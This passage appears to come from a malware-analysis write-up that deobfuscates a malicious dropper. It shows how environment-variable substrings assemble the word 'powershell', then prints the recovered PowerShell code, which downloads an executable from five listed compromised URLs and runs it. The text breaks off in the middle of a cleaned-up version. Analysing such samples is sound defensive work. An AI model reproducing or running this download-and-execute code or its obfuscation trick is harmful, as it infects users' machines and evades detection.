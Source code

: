 
Thereby, the seemingly tangled string turned into an understandable thing. Similarly, it happens with our malicious payload. 

Now back to our main playload. First we see the line:
* `pow% PUBLIC: ~ 5.1% r% SESSIONNAME: ~ -4.1% h% TEMP: ~ -3.1% ll` - as we can already assume, this is also an obfuscated line.
* `% PUBLIC: ~ 5.1%` - is taking a substring of 1 character, starting from the 5th in the `C:\Users\Public` line. Result letter `"e"`
* Next is just the letter `"r"`
* `% SESSIONNAME: ~ -4.1%` - this is taking a substring of 1 character, starting from the 4th, from the end in the line `Console`. Result is letter `"s"`
* Next is just the letter `"h"`
* `% TEMP: ~ -3.1%` - this is taking a substring of 1 character, starting from the 3rd, from the end, in the line `C:\Users\RDRG\AppData\Local\Temp`. Result is letter `"e"`
* Further, just the letters `"ll"`
Total: `powershell`

After that comes the powershell code:
<pre>
$bwrijii='uuzismi';

$jdiwhri=new-object Net.WebClient;

$awbju='http://www.hotelinone.net/IzBYbmU9N3dF8R@http://landmarkbytherivers.com/wp-includes/IXR/eiv8Zdszu1ro8@http://mail.tgeeks.co.tz/pHnj6pZbAhM7_oEO7j@http://www.phyzicia.com/o7UkdcC660mC_fD36O6wM@http://www.hosurbusiness.com/cnKgCjaDLegepf14'.Split('@');

$iivqsmf='wbmjcs';
$ifinwbz = '409';
$hofirzp='vvmwiz';
$zljzjkh=$env:temp+'\'+$ifinwbz+'.exe';
foreach($ikacjq in $awbju){
	try{
		$jdiwhri.DownloadFile($ikacjq, $zljzjkh);
		$jdkiic='kijkrj';
		If ((Get-Item $zljzjkh).length -ge 40000) {
			Invoke-Item $zljzjkh;
			$rzkqd='bfzkhcb';
			break;
		}
	} catch {
	}
}
$dnmjiq='bphqjc';
</pre>

Let's turn it into more understandable code by removing all unnecessary and renaming variables:

<pre>
$webClient=new-object Net.WebClient;

$URLS='http://www.hotelinone.net/IzBYbmU9N3dF8R@http://landmarkbytherivers.com/wp-includes/IXR/eiv8Zdszu1ro8@http://mail.tgeeks.co.tz/pHnj6pZbAhM7_oEO7j@http://www.phyzicia.com/o7UkdcC660mC_fD36O6wM@http://www.hosurbusiness.com/cnKgCjaDLegepf14'.Split('@');

